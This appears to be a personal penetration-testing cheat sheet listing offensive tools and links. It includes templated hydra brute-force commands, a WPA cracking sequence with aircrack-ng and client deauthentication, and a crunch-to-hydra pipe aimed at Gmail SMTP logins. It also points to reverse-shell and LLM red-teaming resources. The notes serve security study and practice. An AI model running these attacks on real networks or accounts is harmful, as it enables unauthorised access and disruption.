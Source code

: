 # note_dump_games

Bruteforce
  - hydra
    - https://www.kali.org/tools/hydra/
    - Ex. ```hydra -l <username> -P <wordlist> <protocol>://<target.ip.here> -V -I -F -t <number of threads>```
  - aircrack (WPA)
    -  https://www.kali.org/tools/aircrack-ng/
    -  Ex.
      -  ```airmon-ng check kill```
      -  ```airmon-ng start <interface>```
        or
         ```ip link set <interface> down```
         ```iw <interface> set monitor none```
         ```ip link set <interface> up```
      -  ```airodump-ng <interface>```
      -  ```airodump-ng <interface> --channel <target channel> --bssid <target bssid> -w output```
      -  ```aireplay-ng --deauth 100 -a <target bssid> 0c <target mac> <interface>```
      -  ```aircrack-ng -w <worldlist> -b <target bssid> <cap file> -a2```
        or
         ```crunch [options] | aircrack-ng -b <target bssid> <cap file> -a2```
        or
         use hashcat

Wordlist generation
  - CeWL
    - https://www.kali.org/tools/cewl/
    - https://www.youtube.com/watch?v=ec1ZmW1YxqA
    - Ex. ```cewl --depth 2 --write path/to/wordlist.txt url```

  - Crunch
    - https://www.kali.org/tools/crunch/
    - https://www.youtube.com/watch?v=0ouVxR7hLvE
    - Ex. ```crunch 1 6 123456 --stdout | hydra -S -l [email protected] -v -V -e nsr -s 465 smtp.gmail.com smtp```

Command reference
  - TLDR
    -  https://tldr.inbrowser.app/
  - Reverse shells
    - https://www.revshells.com/
    - https://ub3rsec.github.io/pages/rev-shell-cheatsheet.html
    - https://0xffsec.com/handbook/shells/full-tty/
    - https://zweilosec.github.io/posts/upgrade-linux-shell/

Living off the land
  - https://lolbas-project.github.io/
  - https://gtfobins.github.io/
  - https://www.loldrivers.io/

Pentest Guides
  - https://book.hacktricks.xyz/
  - https://0xffsec.com/
  - https://www.stationx.net/how-to-use-aircrack-ng-tutorial/

LLM Stuff
  -  https://www.youtube.com/@intigriti
  -  https://www.promptfoo.dev/docs/red-team/

Hash reference
  - https://hashcat.net/wiki/doku.php?id=example_hashes
